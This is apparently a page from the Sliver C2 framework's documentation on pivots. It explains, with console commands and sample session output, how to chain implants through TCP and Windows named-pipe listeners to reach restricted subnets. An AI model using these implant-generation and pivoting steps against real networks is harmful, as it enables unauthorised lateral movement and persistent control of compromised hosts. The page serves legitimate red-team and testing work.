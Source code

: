 ️ **IMPORTANT:** Pivots in Sliver are used for specifically pivoting C2 traffic, not to be confused with port forwarding `portfwd`, which is used for tunneling generic tcp connections into a target environment.

️ **IMPORTANT:** Pivots can only be used in "session mode" (we may add beacon support later)

Pivots allow you to create "chains" of implant connections, for example if you're trying to deploy a pivot into a highly restricted subnet that cannot route traffic directly to the internet you can instead create an implant that egresses all traffic via another implant in a less restricted subnet. Sliver v1.5 and later pivots can be arbitrarily nested, for example a pivot A can connect thru pivot B to a third egress implant.

In Sliver you use an existing session to create a "pivot listener" and then generate new pivots that can connect back to that listener, just as you would with other C2 protocols/endpoints.

Pivots perform an [authenticated peer-to-peer cryptographic key exchange](/docs?name=Transport+Encryption) regardless of the underlying pivot protocol, therefore pivots can only communicate with other implants generated by the same server; this restriction cannot be disabled.

## TCP Pivots

TCP pivots are implemented in pure Go and are supported on all platforms.

```
[server] sliver (PRIOR_MANTEL) > pivots tcp

[*] Started tcp pivot listener :9898 with id 1

[server] sliver (PRIOR_MANTEL) > pivots

 ID Protocol Bind Address Number Of Pivots
==== ========== ============== ==================
 1 TCP :9898 0
```

We can now use `generate --tcp-pivot 192.168.1.1:9898` to generate an implant that will connect to the pivot listener, where `192.168.1.1` is the local IP of the server on which we started the listener.

## Named Pipe Pivots (SMB)

Named pipe pivots are only supported on Windows. Select a session to start a named pipe listener, and then use the `--bind` flag to specify a pipe name. Pipes are automatically started on the local machine so you only need to specify a name, remote clients are always allowed to connect to the pipe, but the default ACL will only allow the current user/group. You can allow all user/groups by using the `--allow-all` flag:

```
[*] Session a2615359 WARM_DRIVEWAY - 192.168.1.178:59290 (WIN-1TT1Q345B37) - windows/amd64 - Mon, 07 Feb 2022 1020 CST

[server] sliver > use a2615359-b0a4-4463-820b-f4dbe6fb2c30

[*] Active session WARM_DRIVEWAY (a2615359-b0a4-4463-820b-f4dbe6fb2c30)

[server] sliver (WARM_DRIVEWAY) > pivots named-pipe --bind foobar

[*] Started named pipe pivot listener \\.\pipe\foobar with id 1
```

Next we generate a named pipe implant using `generate --named-pipe 192.168.1.1/pipe/foobar` note here we may need to specify the IP address of the listener: `192.168.1.1`. The syntax is `<host>/pipe/<pipe name>`, note that `.` is equivalent to `127.0.0.1`. This is just the standard syntax for Windows named pipes.

```
[*] Session 13f9ee6b ROUND_ATELIER - 192.168.1.178:59290->WARM_DRIVEWAY-> (WIN-1TT1Q345B37) - windows/amd64 - Mon, 07 Feb 2022 1011 CST

[server] sliver (WARM_DRIVEWAY) > sessions

 ID Name Transport Remote Address Hostname Username Operating System Last Check-In Health
========== =============== =========== ====================================== ================= =============================== ================== =============================== =========
 13f9ee6b ROUND_ATELIER pivot 192.168.1.178:59290->WARM_DRIVEWAY-> WIN-1TT1Q345B37 WIN-1TT1Q345B37\Administrator windows/amd64 Mon, 07 Feb 2022 1011 CST [ALIVE]
 a2615359 WARM_DRIVEWAY mtls 192.168.1.178:59290 WIN-1TT1Q345B37 WIN-1TT1Q345B37\Administrator windows/amd64 Mon, 07 Feb 2022 1011 CST [ALIVE]
```

️ **IMPORTANT:** In some environments you may need to use the `--allow-all` flag when starting the pviot listener to allow all users/groups
